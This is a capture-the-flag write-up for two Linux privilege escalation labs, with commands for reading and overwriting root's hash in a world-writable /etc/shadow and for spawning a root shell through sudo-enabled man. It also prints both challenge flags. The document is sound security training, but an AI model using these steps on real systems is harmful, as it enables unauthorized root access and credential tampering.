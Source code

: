 # 🔬Linux Privilege Escalation

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Permissions Matter!](https://www.attackdefense.com/challengedetailsnoauth?cid=75)
>
> * Direct access to the target machine via `student` unprivileged user
> * Find specific **Linux Privilege escalation vulnerabilities manually**
> * Some files permissions are not set properly, use them to elevate privileges.

### Local Enumeration <a href="#local-enumeration" id="local-enumeration"></a>

<figure><img src="../../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

### Misconfigured Permissions Files <a href="#misconfigured-permissions-files" id="misconfigured-permissions-files"></a>

* Look for **world writable files**
  * _Find a file that could help to elevate privileges_

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

> ❗ `/etc/shadow` is writable by everyone!

```bash
ls -l /etc/shadow
cat /etc/shadow

# "root" user doesn't have a password specified
```

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

* `/etc/shadow` stores the passwords in an encrypted format, so the `root` password need to be replaced with a hashed password

```bash
# Generate a password entry
openssl passwd -1 -salt abc password
	$1$v0N3U84r$mvHpbPX/9Zl.3YOSKjQ4p/

# Edit and paste the hashed password into the /etc/shadow file
vim /etc/shadow
```

<figure><img src="../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

* Switch to the `root` user

```bash
su
# type "password" password for "root" user
whoami

cd
ls
cat flag
```

<figure><img src="../../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
**Flag:** `e62ab67ddff744d60cbb6232feaefc4d`
{% endhint %}

***

## Lab 2

> 🔬 [Editing Gone Wrong](https://www.attackdefense.com/challengedetailsnoauth?cid=80)
>
> * Direct access to the target machine via `student` unprivileged user
> * Find **misconfigured `sudo` privileges**

### Local Enumeration <a href="#local-enumeration-1" id="local-enumeration-1"></a>

<figure><img src="../../../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

### Misconfigured SUDO Privileges <a href="#misconfigured-sudo-privileges" id="misconfigured-sudo-privileges"></a>

* Find [`setuid`](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) programs

```bash
find / -user root -perm -4000 -exec ls -ldb {} \;
 
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

> 📌 Useful tool - [FallOfSudo](https://github.com/CyberOne-TeamARES/FallOfSudo)

* Identify what commands the `student` user can run

```basic
sudo -l
```

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

> ❗ **`/usr/bin/man`** binary can be run _**with**** ****`SUDO`**** ****privileges, without providing a**** ****`root`**** ****user password**_

* This can happen on Linux systems for specific binaries that other users have to run with `SUDO` privileges. It looks _harmless_, but it can allow users to spawn bash privileged sessions, since **the specific binary can be utilized to execute specific commands**. Those commands are executed with the binary `root` privileges.

### Privilege Escalation <a href="#privilege-escalation-1" id="privilege-escalation-1"></a>

```bash
sudo man ls
```

* In the `man` scrolling page, using the **`!`** a `bash` can be spawned

```bash
!/bin/bash

# "root" bash sessions is received
```

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

* Retrieve the flag with the **`root`** user

<figure><img src="../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
**Flag:** `74f5cc752947ec8a522f9c49453b8e9a`
{% endhint %}
